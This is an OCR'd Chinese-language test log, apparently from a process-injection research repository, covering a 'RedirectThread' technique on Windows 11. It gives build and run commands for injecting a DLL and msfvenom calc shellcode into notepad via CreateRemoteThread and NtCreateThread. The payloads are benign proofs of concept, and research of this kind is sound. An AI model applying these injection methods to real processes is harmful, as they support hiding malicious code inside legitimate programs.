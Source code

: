 | Method | Windows 11支持 | 实现方式 |
|--------|--------------|---------|
| **CreateRemoteThread** | ✅ 成功 | CREATE_SUSPENDED + SetThreadContext |
| **NtCreateThread** | ❌ 失败 | 直接提供CONTEXT（受系统限制） |
| **QueueUserAPC** | 需测试 | APC队列注入 |

## 测试步骤

### 测试1：DLL指针注入

**准备测试DLL**:
```bash
cd techniques/40-redirect-thread

# 创建测试DLL源码
cat > test_dll.c << 'EOF'
#include <windows.h>
BOOL WINAPI DllMain(HINSTANCE h, DWORD reason, LPVOID reserved) {
    if (reason == DLL_PROCESS_ATTACH) {
        MessageBoxA(NULL, "RedirectThread DLL Loaded!", "Success", MB_OK);
    }
    return TRUE;
}
EOF

# 编译DLL
gcc -shared -o 0.dll test_dll.c -luser32
```

**执行注入**:
```bash
# 启动目标进程
notepad.exe &
# 获取PID: 22560

# 执行DLL指针注入
./redirect_thread.exe --dll-pointer 22560 "0"
```

### 测试2：NtCreateThread + ROP Gadget

```bash
./redirect_thread.exe --ntcreatethread 22560
```

### 测试3：官方实现对比

```bash
cd reference-redirect-thread

# 编译官方版本
"/c/Program Files/Microsoft Visual Studio/2022/Community/MSBuild/Current/Bin/MSBuild.exe" \
    RedirectThread.sln //p:Configuration=Release //p:Platform=x64

# 测试CreateRemoteThread方法
./x64/Release/RedirectThread.exe --pid 22560 \
    --inject-shellcode ShellcodeExamples/w10-x64-calc-shellcode-msfvenom.bin \
    --method CreateRemoteThread

# 测试NtCreateThread方法
./x64/Release/RedirectThread.exe --pid 22560 \
    --inject-shellcode ShellcodeExamples/w10-x64-calc-shellcode-msfvenom.bin \
    --method NtCreateThread
```